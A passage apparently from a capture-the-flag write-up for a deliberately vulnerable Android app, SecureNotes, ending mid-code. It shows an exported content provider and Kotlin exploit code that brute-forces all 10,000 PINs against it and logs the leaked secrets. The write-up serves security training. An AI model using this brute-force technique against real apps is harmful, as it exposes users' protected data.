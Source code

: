 ```xml
            </intent-filter>
            <intent-filter>
                <action android:name="androidx.profileinstaller.action.SAVE_PROFILE"/>
            </intent-filter>
            <intent-filter>
                <action android:name="androidx.profileinstaller.action.BENCHMARK_OPERATION"/>
            </intent-filter>
        </receiver>
    </application>
</manifest>
```

We observe that the content provider is exported, allowing us to create our application to interact with it more easily. Additionally, we need to implement the `DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION` permission.

### Developing our application

We begin by opening Android Studio and creating a project. The first step is to modify our `AndroidManifest.xml` by adding the following lines.

```xml
...
    xmlns:tools="http://schemas.android.com/tools">
    <!--Add this part-->
    <uses-permission android:name="com.mobilehackinglab.securenotes.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION"/>
    <queries>
        <package android:name="com.mobilehackinglab.securenotes" />
    </queries>
    <!--To Here-->
    <application...
    ...

</manifest>
```

This allows our application to make queries to `com.mobilehackinglab.securenotes`, the application implementing the PIN, and we use the permission `DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION` to ensure we can communicate with it.

After modifying the manifest, all that's left is to program our `MainActivity.kt` class.

```kotlin
class MainActivity : AppCompatActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)
        for (i in 0..9999) {
            exploit(i)
        }
    }

    @SuppressLint("Range")
    private fun exploit(pinValue: Int){
        val uri = Uri.parse("content://com.mobilehackinglab.securenotes.secretprovider")
        val pin = String.format("pin=%04d",pinValue)
        val cursor = contentResolver.query(uri, null, pin, null, null)
        cursor?.apply {
            if (moveToFirst()) {
                do {
                    val data = getString(getColumnIndex("Secret"))
                    Log.d("Content:", "$pin secret: $data")
                } while (moveToNext())
            }
            close()
```